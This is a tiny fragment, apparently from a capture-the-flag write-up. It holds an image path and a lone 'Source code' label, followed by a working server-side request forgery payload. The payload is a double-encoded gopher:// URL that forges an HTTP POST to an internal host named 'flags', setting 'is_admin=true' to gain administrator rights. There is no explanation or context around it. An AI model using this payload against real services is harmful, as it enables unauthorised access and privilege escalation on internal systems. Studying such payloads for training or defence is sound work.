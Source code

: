 gopher://flags:80/_POST%2520/%2520HTTP/1.1%250D%250AHost:%2520flags%250D%250AContent-Length:%252013%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250A%250D%250Ais_admin=true